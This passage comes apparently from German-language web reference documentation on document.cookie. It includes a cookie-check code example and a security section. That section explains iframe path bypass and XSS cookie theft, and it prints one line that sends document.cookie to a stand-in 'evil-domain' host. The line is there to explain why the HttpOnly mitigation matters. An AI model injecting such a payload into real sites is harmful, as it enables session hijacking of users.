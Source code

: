 ```js
const checkBtn = document.getElementById("check");
const clearBtn = document.getElementById("clear");
const output = document.getElementById("output");

checkBtn.addEventListener("click", () => {
  if (document.cookie.split(";").some((item) => item.includes("reader=1"))) {
    output.textContent = '> The cookie "reader" has a value of "1"';
  }
});
clearBtn.addEventListener("click", () => {
  output.textContent = "";
});
```

{{EmbedLiveSample('Example_6_Check_that_a_cookie_has_a_specific_value', 200, 72)}}

## Sicherheit

Es ist wichtig zu beachten, dass das `path`-Attribut _nicht_ vor unbefugtem Lesen des Cookies von einem anderen Pfad schützt. Es kann leicht mit dem DOM umgangen werden, indem beispielsweise ein verborgenes {{HTMLElement("iframe")}}-Element mit dem Pfad des Cookies erstellt wird, dann wird auf die `contentDocument.cookie`-Eigenschaft dieses IFRAMES zugegriffen. Der einzige Weg, das Cookie zu schützen, besteht darin, einen anderen Domain oder Subdomain zu verwenden, aufgrund der [Same-Origin-Policy](/de/docs/Web/Security/Same-origin_policy).

Cookies werden häufig in Webanwendungen verwendet, um einen Benutzer und seine authentifizierte Sitzung zu identifizieren. Der Diebstahl eines Cookies von einer Webanwendung führt zur Übernahme der authentifizierten Benutzersitzung. Häufige Möglichkeiten, Cookies zu stehlen, umfassen den Einsatz von [Social Engineering](<https://en.wikipedia.org/wiki/Social_engineering_(security)>) oder durch Ausnutzung einer {{Glossary("Cross-site_scripting", "Cross-Site-Scripting")}} (XSS) Schwachstelle in der Anwendung -

```js
new Image().src = `http://www.evil-domain.com/steal-cookie.php?cookie=${document.cookie}`;
```

Das `HTTPOnly`-Cookie-Attribut kann helfen, diesen Angriff abzumildern, indem es den Zugriff auf den Cookie-Wert über JavaScript verhindert. Lesen Sie mehr über [Cookies und Sicherheit](https://humanwhocodes.com/blog/2009/05/12/cookies-and-security/).

## Hinweise

- Beginnend mit Firefox 2 ist ein besserer Mechanismus für clientseitige Speicherung verfügbar - [WHATWG DOM Storage](/de/docs/Web/API/Web_Storage_API).
- Sie können ein Cookie löschen, indem Sie seine Ablaufzeit auf null setzen.
- Beachten Sie, dass je mehr Cookies Sie haben, desto mehr Daten zwischen dem Server und dem Client für jede Anfrage übertragen werden. Dies wird jede Anfrage verlangsamen. Es wird sehr empfohlen, [WHATWG DOM Storage](/de/docs/Web/API/Web_Storage_API) zu verwenden, wenn Sie "nur für den Client" Daten speichern möchten.
- [RFC 2965](https://datatracker.ietf.org/doc/html/rfc2965) (Abschnitt 5.3, "Implementierungslimits") legt fest, dass es **keine maximale Länge** eines Cookie-Schlüssel- oder Werts gibt, und ermutigt Implementierungen **beliebig große Cookies** zu unterstützen. Das Maximum jeder Browser-Implementierung wird notwendigerweise unterschiedlich sein, daher konsultieren Sie bitte die Dokumentation der einzelnen Browser.
